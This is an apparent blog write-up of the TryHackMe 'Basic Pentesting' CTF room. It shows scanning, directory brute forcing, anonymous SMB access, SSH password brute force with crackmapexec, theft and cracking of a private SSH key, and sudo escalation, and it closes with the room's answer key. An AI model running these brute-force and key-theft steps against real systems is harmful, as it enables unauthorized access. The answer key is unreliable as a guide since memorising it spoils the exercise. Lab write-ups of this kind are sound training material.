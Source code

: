 Hey Hackers, 

I think it's time for me to wash the dirt off my hands by sharing the methodologies I use for compromising the CTF machines on hacking platforms like `HackTheBox`, `TryHackMe` etc. After a lot of bullshits I came back to the good old conclusion of `Sharing is Caring!`. Even though I have done much of machines before, I rarely document my art of hacking. As this is a Beginning I think it'll be better for me to start from basic easy machines to the much insane ones, 

Lets take single small steps a time.

So enough of this junk talks, let's get in to the game. Today from tons of easy machines, the lot has been fallen for the `Basic Pentest` [machine](https://tryhackme.com/r/room/basicpentestingjt) in `TryHackMe` which is a very easy one.

Let's fire up the machine first. Take some time to lit up my Hacking Skills. I'm just blabbering this craps only because this is my first writeup. I don't talk much usually. lol.

As always let's begin with a simple and quickest port scan using rustscan. You can get the rustscan from [here](heresareallystrongpasswordthatfollowsthepasswordpolicy$$).
```sh
rustscan -a 10.10.207.198 --ulimit 5000 | tee ./nmap/rust.log
<snipped>
Nmap scan report for 10.10.207.198
Host is up, received syn-ack (0.24s latency).
Scanned at 2024-08-24 01:13:22 IST for 1s

PORT     STATE SERVICE      REASON
22/tcp   open  ssh          syn-ack
80/tcp   open  http         syn-ack
139/tcp  open  netbios-ssn  syn-ack
445/tcp  open  microsoft-ds syn-ack
8009/tcp open  ajp13        syn-ack
8080/tcp open  http-proxy   syn-ack
```

I used rustscan for the quick port enumeration. It's usually time saving. We got the open ports and now let's use Nmap to footprint the open services. There are options to use Nmap along with rustscan but I just prefer the old school way.

Enumerate the service versions using Nmap on the open ports
```sh
nmap -sV 10.10.207.198 -p 22,80,139,445,8009,8080 -oN ./nmap/Service.log
<snipped>
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8080/tcp open  http        Apache Tomcat 9.0.7
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

As we can see from above two output results, there are 6 open ports. `SSH` is a common open port in the CTFs which is of no use normally except for login to the server if we could enumerate any credentials from other sources. or Bruteforce is the thing we got. That's the last and final option for me while I'm on a box.

So for now let's begin with the second smallest port in the order, that is `80` which is serving an `Apache httpd 2.4.18 web server`. It also hints that the host machine platform is `Ubuntu`.

Let's fire up a web browser and take a look through the server.
```sh
firefox http://10.10.207.198 &
```

Oh Damn! There is nothing much in here.
![[Attachments/Pasted image 20240824012735.png]]

Just a custom page saying it's under maintenance. Let's try inspect the source code and take a look.
![[Attachments/Pasted image 20240824012847.png]]
That looks like a hint for us, ain't it?. 

It looks like a message to someone coming here. Possibly there would be more files and directories in the server. 
So how do we know where the files are at? 

Ya, Lets Bruteforce the directories in the server using `Gobuster`.
```sh
gobuster dir -u http://10.10.207.198/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -o gobuster_80.log -t 40
<snipped>
/development          (Status: 301) [Size: 320] [--> http://10.10.207.198/development/]
```
Ha, we got a redirect code `302` on directory name `/development`.

![[Attachments/Pasted image 20240824013510.png]]
There are two text files in the directory. Seems like these are the notes that hinted in the home page source code comments.

After opening the text files.
![[Attachments/Pasted image 20240824013641.png]]
![[Attachments/Pasted image 20240824013658.png]]
Reading these notes, we could understand that these two notes are chat conversations between two users `J` and `K`, and one of the guy is working on an apache struts and not yet completed, there is a SMB Server configured and running, `K` is also asking `J` to update his password and it's less secure and easily cracked.

The above files telling us there is probable chance of bruteforcing the credential in any of the logins, but till now we do not have any usernames known but only first letters of the names.

Let's go enumerate `SMB 445` as the next port as they hinted about it in the conversation files.
```sh
smbclient -N -L //10.10.207.198/  

Sharename       Type      Comment
---------       ----      -------
Anonymous       Disk      
IPC$            IPC       IPC Service (Samba Server 4.3.11-Ubuntu)
```

Enumerate the shares,
```sh
smbclient -N //10.10.207.198/anonymous 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Apr 19 23:01:20 2018
  ..                                  D        0  Thu Apr 19 22:43:06 2018
  staff.txt                           N      173  Thu Apr 19 22:59:55 2018
14318640 blocks of size 1024. 11086752 blocks available
```

There is another note in the SMB share called `staff.txt`, Let's read it
```sh
smb: \> !cat staff.txt 
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it\'s all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```
That's a staff announcement. But what's something valuable to us is, we got the full usernames!! `Kay and Jan`. 
We already know that the password of the user `Jan` is very weak and can be easily cracked. So let's try bruteforce the `SSH` using `hydra` or `crackmapexec`. I am using `CrackMapExec` this time.
```sh
crackmapexec ssh 10.10.207.198 -u jan -p /usr/share/wordlists/rockyou.txt 
<snipped>
SSH         10.10.207.198   22     10.10.207.198    [-] jan:loveme1 Authentication failed.                             
SSH         10.10.207.198   22     10.10.207.198    [-] jan:milagros Authentication failed.                            
SSH         10.10.207.198   22     10.10.207.198    [-] jan:stella Authentication failed.                              
SSH         10.10.207.198   22     10.10.207.198    [-] jan:lilmama Authentication failed.                             
SSH         10.10.207.198   22     10.10.207.198    [-] jan:beyonce Authentication failed.                             
SSH         10.10.207.198   22     10.10.207.198    [-] jan:lovely1 Authentication failed.                             
SSH         10.10.207.198   22     10.10.207.198    [-] jan:rocky Authentication failed.     
SSH         10.10.207.198   22     10.10.207.198    [-] jan:daddy Authentication failed.    
SSH         10.10.207.198   22     10.10.207.198    [-] jan:catdog Authentication failed.                              
SSH         10.10.207.198   22     10.10.207.198    [+] jan:armando                 
```

Success! We got the password for the user `jan:armando`.

Meanwhile I went through the other open ports `8009` and `8080` as well. Found nothing useful in there so just left it there, and by the time the credentials got cracked out from `crackmapexec`.

So, Login to the ssh server.
![[Attachments/Pasted image 20240824015826.png]]
\<snipped>
![[Attachments/Pasted image 20240824015859.png]]
After a lite enumeration we got the `ssh id_rsa` file for the user `Kay` from his user home directory and we have permission to read it.
![[Attachments/Pasted image 20240824020149.png]]

Let's try to login to the user kay using this file.
```sh
jan@basic2:/home/kay/.ssh$ ssh kay@127.0.0.1 -i id_rsa
```

![[Attachments/Pasted image 20240824020637.png]]
We are unable to login to the user as it requires passphrase for the `id_rsa` file and we don't have it.

So Let's transfer it on to our attack machine by copy paste or some other means and brute force the passphrase, Here I'm using `SCP` for transferring the files.
```sh
scp jan@10.10.207.198:/home/kay/.ssh/id_rsa ./
```
Transfer successful.

Lets try to crack it using our beloved `John`.
```sh
ssh2john id_rsa > kay_rsa.hash
john kay_rsa.hash --wordlist=/usr/share/wordlists/rockyou.txt 
john kay_rsa.hash --show  
```

![[Attachments/Pasted image 20240824021013.png]]
We cracked the passphrase for the file. now lets log in to the user `Kay` using this file.
```sh
ssh kay@10.10.207.198 -i id_rsa
```
![[Attachments/Pasted image 20240824021211.png]]

There is a `pass.bak` file in the user home directory of this user and it wasn't readable with user `Jay` but now it's readable as the file is owned by  `Kay`.
![[Attachments/Pasted image 20240824021340.png]]
We got a password in the file and it looks like its the password for `Kay:heresareallystrongpasswordthatfollowsthepasswordpolicy$$`.

Now let's check for the `sudo permission` for this user to escalate privileges to root.
```sh
sudo -l
```
![[Attachments/Pasted image 20240824021538.png]]
This user has full permission and can do anything and everything.

So let's switch and interact as root user.
```sh
sudo -i
```

![[Attachments/Pasted image 20240824021650.png]]
Ta Da !!! We broke the coconut shell. It's a final note congratulating us for this victory. Seems like a best start for me on this writeup journey and to you as well.

---
What is the name of the hidden directory on the web server(enter name without /)?
> /development

What is the username?
> jan

What is the password?
> armando

What service do you use to access the server(answer in abbreviation in all caps)?
>SSH

What is the name of the other user you found(all lower case)?
> kay

What is the final password you obtain?
> heresareallystrongpasswordthatfollowsthepasswordpolicy$$


 Congratulation! Hack Every Shells
 ~/ Unknown Coconut